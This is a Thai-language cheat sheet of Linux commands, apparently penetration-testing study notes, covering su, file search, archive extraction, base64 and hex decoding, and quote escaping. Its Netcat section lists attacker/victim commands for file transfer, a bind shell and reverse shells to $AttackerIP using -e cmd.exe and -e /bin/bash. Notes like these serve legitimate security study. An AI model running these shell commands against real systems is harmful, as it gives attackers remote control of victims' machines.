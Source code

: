 # Linux Command 

* **คำสั่ง su** เป็นคำสั่งที่ใช้ในการ login ด้วย user id อื่น โดยการสร้าง login session ใหม่หลังจาก ระบุ username ด้วยคำสั่ง su <username> ต้องทำการกรอก password ให้ถูกต้อง แต่สำหรับ session ที่เป็น user root อยู่แล้ว ไม่จำเป็นต้องกรอก password สำหรับการ su ไป user อื่น ๆ ที่อยู่ภายในระบบ
```bash
# Login ด้วย User ชื่อ icesuntisuk
su icesuntisuk
```
* การกำหนดตัวแปร เพื่อนำไปใช้ในคำสั่งอื่น ๆ ตามที่ต้องการ

```bash
ipaddr=192.168.1.0/24
echo $ipaddr
# 192.168.1.0/24
```

คำสั่ง Locate ใช้สำหรับค้นหาไฟล์ในระบบ 	

```bash
locate shell.php
```

ค้นหาข้อมูลภายใต้ไดเร็กทอรี่หรือตัวแปร $PATH 	

```bash
which bash
```	

การค้นหาไฟล์จากชื่อที่ระบุภายใต้ Root Path 

```bash
find / -name shell\*	
```	
การ Unzip ไฟล์ชนิด gz

```bash
gunzip abc.gz	
```	

การ Unzip ไฟล์ชนิด tar.gz

```bash
tar -xzvf abc.tar.gz	
```	

การตรวจสอบข้อมูลภายใต้ไฟล์ Word หรือ .docx

```bash
unzip -p abc.docx word/document.xml | sed -e 's/<[^>]\{1,\}>//g; s/[^[:print:]]\{1,\}//g'	
```	

การดาวโหลดข้อมูลจาก Webpage

```bash
wget http://www.abc.com	
```	

การ Decode ด้วย Base 64

```bash
echo -n "aWNlc3VudGlzdWs=" | base64 --decode
```

การ Decode เลขฐาน 16 

```bash
echo -n "69 63 65 73 75 6e 74 69 73 75 6b" | xxd -r -ps 
```

Escaping script			
```bash		
#Escape Double quote (") inside Double quote by adding back slash (\)		
#echo "Note:"Icesuntisuk's git""		
echo "Note:\"Icesuntisuk's git\""		
			
#Escape Single quote (') inside Single quote by adding '\'		
#echo 'Note:"Icesuntisuk's git"'		
echo 'Note:"Icesuntisuk'\''s git"'		
```
การใช้งาน Netcat 
```bash	
#Connect to POP3 port 
nc -nv $ipaddr 110

#Listen on TCP/UDP port		
nc -nlvp 4444

#Transferring Files		
#Victim:	
nc -nlvp 4444 > incoming.exe
#Attacker: 	
nc -nv $VictimIP 4444 < /usr/share/windows-binaries/wget.exe

#Bind Shell	
#Victim:	
nc -nlvp 4444 -e cmd.exe
#Attacker: 	
nc -nv $VictimIP 4444

//Reverse Shell	
#Attacker:	 
nc -nlvp 4444
#Victim(Windows):	  
nc -nv $AttackerIP 4444 -e cmd.exe
#Victim(Linux):	  
nc -nv $AttackerIP 4444 -e /bin/bash
```

การใช้ Python สำหรับเปืด Webserver 

```python	
#การเปิด Web Server port 8000 บน Directory ปัจจุบัน
python3 -m http.server 8000
```
